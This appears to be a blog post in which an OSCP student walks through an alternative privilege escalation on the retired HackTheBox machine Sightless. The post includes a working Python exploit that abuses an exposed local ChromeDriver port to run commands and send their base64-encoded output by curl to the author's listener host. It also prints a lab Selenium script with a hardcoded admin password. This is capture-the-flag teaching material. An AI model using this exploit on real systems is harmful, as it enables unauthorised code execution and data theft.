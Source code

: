 Hey folks,

I've been working on getting my OSCP and that means drilling HackTheBox. A few months ago, I found myself rabbit-holeing an easy box and it paid off. Now that the box is retired, I wanna share the trick I used. 

Sightless is a Box sporting SQLPad and Froxlor. Cracking SQLPad was easy enough and got me shell access as the user `michael`. 

According to the official writeup here, once you're on the box as `michael`, you're supposed to netstat for local ports and find 8080 for privesc. I was going about privesc recon saw that I needed to target the "john" account. `ps -aux | grep john` yielded quite a few interesting processes, and I didn't even need netstat to see that some dynamic ports were open (see `--port=34395` below)
![[Pasted image 20250401160249.png]]

Doing some digging, I found a [blogpost](https://www.gabriel.urdhr.fr/2021/08/16/chromedriver-cross-origin-request-forgery-rce/) from 2021 referencing a [quirk](https://issues.chromium.org/issues/40052697) (and I say quirk rather than vulnerability because the devs have marked this "won't fix") in chromium which you can use to get arbitrary code execution if and only if you're already on a box.

As such, I was able to write this goofy little codeblock after setting up a listener on 8001
```python
import requests
import json
import sys

def main(port, command):
    url = f"http://localhost:{port}/session"
    headers = {'Content-Type': 'text/plain'}
    
    # Body mimicking Chrome WebDriver configuration with dynamic command injection
    body = {
        "capabilities": {
            "alwaysMatch": {
                "goog:chromeOptions": {
                    "binary": "/usr/bin/python3",
                    "args": [f"-cimport os;os.system('curl 10.10.14.21:8001?cmd=$({command} | base64)')"]
                }
            }
        }
    }

    try:
        # Make the POST request
        response = requests.post(url, headers=headers, data=json.dumps(body))
        
        # Output the response status and content
        print(f"Response status code: {response.status_code}")
        print(f"Response content: {response.content}")
    
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    # Expect port and command to be passed as command-line arguments
    if len(sys.argv) != 3:
        print("Usage: python script.py <port> <command>")
    else:
        port = sys.argv[1]
        command = sys.argv[2]
        main(port, command)

```

while the shell this got me wasn't very privileged, it did yield me the Froxlor selenium script

```python
#!/usr/bin/python3
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
from selenium.common.exceptions import UnexpectedAlertPresentException
from selenium.common.exceptions import NoAlertPresentException
from selenium.webdriver.common.alert import Alert
from selenium.webdriver.support import expected_conditions as EC
import time
import threading
import schedule

options = Options()
options.add_argument('--headless')
options.add_argument('--no-sandbox')
options.add_argument('--disable-dev-shm-usage')

# Update this line with the path to your locally downloaded Chrome driver
chrome_driver_path = '/home/john/automation/chromedriver'

# Use Service to specify the Chrome driver binary path
service = Service(chrome_driver_path)
service.start()

driver = webdriver.Chrome(service=service, options=options)

def dismiss_all_alerts(driver):
    while True:
        try:
            alert = driver.switch_to.alert
            print(f"Dismissed alert with text: {alert.text}")
            alert.accept()
            time.sleep(1)
        except NoAlertPresentException:
            break

print("browser opened")
while True:
    try:
        driver.get("http://admin.sightless.htb:8080/admin_logger.php?page=log")
        time.sleep(7)

        # Username Field
        input_element = driver.find_element(By.ID, "loginname")
        input_element.send_keys("admin")

        # Password field
        input_element = driver.find_element(By.ID, "password")
        input_element.send_keys("ForlorfroxAdmin" + Keys.ENTER)
        print("Logged In...")
    except UnexpectedAlertPresentException:
        input_element.send_keys(Keys.ENTER)
        pass
    time.sleep(5)
    dismiss_all_alerts(driver)
    driver.get("http://admin.sightless.htb:8080/admin_index.php?action=logout")
    driver.get("http://admin.sightless.htb:8080/")
    print("Logged Out")
    time.sleep(3)
    #driver.close()
```

which, if you were paying attention, includes the line `input_element.send_keys("ForlorfroxAdmin" + Keys.ENTER)`. I was able to use this password to escalate.

If you're a CTF admin, make sure you're [hiding root processes from users](https://unix.stackexchange.com/questions/17164/how-to-make-a-process-invisible-to-other-users) and otherwise, happy hacking ;)